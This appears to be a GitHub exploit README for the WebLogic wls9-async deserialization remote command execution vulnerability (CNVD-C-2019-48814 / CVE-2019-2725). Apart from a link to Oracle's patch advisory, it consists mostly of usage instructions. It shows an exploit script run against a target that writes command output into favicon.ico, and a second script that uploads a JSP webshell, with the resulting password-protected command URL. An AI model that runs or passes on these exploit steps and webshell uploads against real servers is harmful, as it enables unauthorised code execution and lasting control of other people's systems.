






# CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞

### Patch update: 
```

https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html

```
### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI




###  CVE-2017-10271 No pactch

#### windows-linux-webshell
```
upadte: 自定义webshell名字，适用于windows or linux upload webshell

python async_webshell-all.py  http://10.10.20.166:7001/ webshell.jsp
>>>Webshell:
http://10.10.20.166:7001//bea_wls_internal/webshell.jsp?pwd=123&cmd=whoami
```



#### resever_shell

#### command see

#### webshell


